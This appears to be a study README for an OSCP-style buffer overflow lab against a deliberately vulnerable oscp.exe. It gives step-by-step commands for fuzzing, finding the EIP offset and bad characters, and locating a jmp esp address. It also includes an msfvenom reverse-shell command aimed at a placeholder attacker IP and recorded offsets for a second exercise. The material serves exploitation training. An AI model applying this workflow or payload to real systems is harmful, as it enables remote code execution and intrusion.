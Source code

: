 # Buffer Overflow Prep

### oscp.exe - OVERFLOW1

**Crash Replication and Controlling EIP**

Fuzz the server until it crashes then note the byte value. Use the metasploit tool 
pattern_create.rb to create a cyclic pattern 400 bytes longer than the value that crashed 
the server (2400).

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400`

Copy the output and place it in the payload variable in exploit.py.

Run oscp.exe in Immunity Debugger and run exploit.py then, when the server has crashed, run 
`!mona findmsp -distance 2400` to find the EIP offset.

Set the offset in exploit.py to the offset value here:
`EIP contains normal pattern : ... (offset XXXX)`

And set retn to BBBB in exploit.py

Run the exploit and the EIP should be overwritten with 4 B's (42424242)

badchars: `\x00\x07\x08\x2e\x2f\xa0\xa1`

[Fuzzing script](./fuzzing.py)
[Exploit script](./exploit.py)

**Finding bad chars**

Create a bytearray with mona `!mona bytearray -b "\x00"` 
*Note: -b is deprecated and was replaced by -cpb*

Use python to generate a string of bad chars identical to the bytearray

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Paste the generated badchars into the payload variable in exploit.py and run it.

Copy the ESP register in ImmunityDebugger and use it in the following mona command:
`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`

A popup called mona memory comparison results should appear with the badchars

Update the bytearray with mona and the exploit payload, removing the badchars from the popup

Repeat the process until the popup returns a status of Unmodified, indicating no more 
badchars remain.

**Finding a Jump Point**

Run `!mona jmp -r esp -cpb <badchars>` to find all jmp esp instructions with addresses that 
don't contain any of the specified badchars

Copy one of the addresses and use it to set the retn variable in exploit.py.

The addresses are in little endian so need to be reversed.

**Generate Payload**

Use msfvenom to generate the payload 
`msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER-IP> LPORT=4444 EXITFUNC=thread -b <BADCHARS> -f c`

Update the payload variable to use the shellcode using the following formatting:
```
payload = ("\xba\xbf\xef\xf4\xc3\xd9\xf6\xd9\x74\x24\xf4\x5e\x29\xc9"
...
"\x89")
```

**Prepend NOPs**

Since an encoder was likely used to generate the payload, you will need some space in memory 
for the payload to unpack itself. 

You can do this by setting the padding variable to a string of 16 or more "No Operation" 
(\x90) bytes 
`padding = "\x90" * 16`

**Exploit!**

Start netcat listener on the attacking machine and run exploit.py to gain a shell on the 
target.

### oscp.exe - OVERFLOW2

Fuzzing crashed the target at 700 bytes

EIP offset is 634

Found badchars: "\x00\x23\x3c\x83\xba"

Found jump point: 625011AF 

### oscp.exe - OVERFLOW3
